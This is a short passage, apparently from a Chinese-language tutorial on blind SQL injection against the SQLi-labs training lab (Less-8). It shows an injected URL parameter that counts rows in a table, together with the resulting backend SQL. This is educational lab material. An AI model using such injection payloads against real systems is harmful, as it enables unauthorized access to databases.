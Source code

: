 ```
105		100
i		d
```

![](image/21.jpg)

### 获取记录

获取记录方法同获取列名方法一样，故不再赘述，直接给出URL和后端程序所执行的SQL语句。

#### 获取记录条数

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20(select%20count(id)%20from%20security.emails)=8%23
SQL:
SELECT * FROM users WHERE id='1' and (select count(id) from security.emails)=8#' LIMIT 0,1
;
```
